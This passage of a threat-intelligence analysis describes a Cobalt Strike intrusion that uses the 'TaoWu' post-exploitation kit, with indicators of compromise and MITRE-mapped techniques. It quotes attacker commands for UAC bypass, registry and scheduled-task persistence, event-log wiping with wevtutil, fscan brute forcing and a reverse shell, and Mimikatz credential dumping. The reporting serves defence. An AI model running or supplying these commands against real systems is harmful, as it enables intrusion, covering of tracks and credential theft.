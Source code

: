 This command downloads and executes a PowerShell injector script from the C2 server. The PowerShell injector script contains either a base64-encoded or hexadecimal data blob of the **Cobalt Strike reverse HTTP shellcode**. Upon execution, this shellcode is injected into the victim's machine memory, establishing a connection to the Cobalt Strike server running on the C2 server over HTTP. The observed C2 server IP address is **38[.]14[.]255[.]23**, communicating over HTTP using port **8077** and URL paths **"/6Qeq"** or **"/jANd"**. The attacker utilized specific **User-Agent strings** in the HTTP headers:
*   `Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0; LEN2)`
*   `Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0; BOIE9; ENUS)`

After gaining initial access via the Cobalt Strike reverse HTTP shellcode, the attacker performs post-exploitation activities using plugins from the "**TaoWu**" Cobalt Strike kit. These activities include:

*   **Reconnaissance (T1033):** Gathering system details and user privileges using commands like `whoami /all`, `dir`, and `net time`.
*   **Privilege Escalation (T1068):** Attempting to elevate privileges using exploit programs such as **JuicyPotato**, **RottenPotato**, and **SweetPotato**, which abuse Windows authentication and impersonation tokens. The attacker also uses **Ladon.exe** (a "TaoWu" plugin) to bypass User Account Control (UAC). An example command is `Ladon.exe BypassUac C:\Windows\Temp\123.exe`.
*   **Persistence (T1112, T1053, T1543):** Establishing persistence through modifying registry keys using the `reg add` command, creating scheduled tasks using **sharpTask.exe** (e.g., `sharpTask.exe --AddTask Computer|local|hostname|ip 24h:time|12:30 \ some Service "Some Service" C:\Windows\Temp\payload.exe`), and creating hidden registry keys using **SharpHide.exe** (e.g., `SharpHide.exe action=create keyvalue="C:\Windows\Temp\123.exe"`), and creating services using **SharpStay.exe** (e.g., `SharpStay.exe action=CreateService servicename=Debug command="C:\Windows\tmp\payload.exe"`). An example of registry modification is `reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v Svchost /t REG_SZ /d "C:\Windows\system32\cmd.exe" /f C:\Windows\Temp\payload.exe`.
*   **Detection Evasion (T1070.001):** Erasing event logs from the Windows security, system, application, and PowerShell logs using the `wevtutil` command (e.g., `wevtutil cl security`, `wevtutil cl system`, `wevtutil cl application`, `wevtutil cl windows powershell`).
*   **Lateral Movement (T1570):** Performing network reconnaissance using **fscan.exe** (uploaded to `C:\Windows\Temp`) and **Seatbelt.exe** to identify potential lateral movement targets. The attacker also attempts to abuse Group Policy Objects (GPOs) using **SharpGPOAbuse.exe** to execute malicious PowerShell scripts across the network (e.g., creating a scheduled task named "update"). Examples of `fscan.exe` usage include scanning a local subnet (`fscan.exe -h 192[.]168[.]1[.]1/24`), scanning for SSH with public key authentication (`fscan.exe -h 192[.]168[.]1[.]1/24 -rf id_rsa.pub`), brute-forcing SSH on a non-standard port (`fscan.exe -h 192[.]168[.]1[.]1/24 -m ssh -p 2222`), and opening a reverse shell (`fscan.exe -h 192[.]168[.]1[.]1/24 -rs 192.168.1.1:6666` followed by executing `whoami` on accessible machines `fscan.exe -h 192[.]168[.]1[.]1/24 -c whoami`).
*   **Credential Access and Exfiltration (T1003, T1003.001, T1041):** Dumping credentials (plaintext passwords and NTLM hashes) from memory using **Mimikatz** with commands like `sekurlsa::logonpasswords`.

The attacker's C2 server at **38[.]14[.]255[.]23** had exposed directory listings, revealing PowerShell scripts, Cobalt Strike beacon executables, exploit programs, and command execution history. Analysis showed the download and execution of a pre-configured installer shell script "**LinuxEnvConfig.sh**" from the "yijingsec" repository on Gitee. This script is designed to set up foundational environments for Linux systems (Ubuntu, Debian, Kali Linux) and deploys various offensive security frameworks as Docker containers from an Alibaba Cloud Container Registry (**registry[.]cn-shanghai[.]aliyuncs[.]com**). These frameworks include **Vulfocus**, **Asset Reconnaissance Lighthouse (ARL)**, **Viper C2**, **Starkiller**, **BeEF**, and **Blue-Lotus**. The script also modifies the machine's DNS settings to **114[.]114[.]114[.]114**.
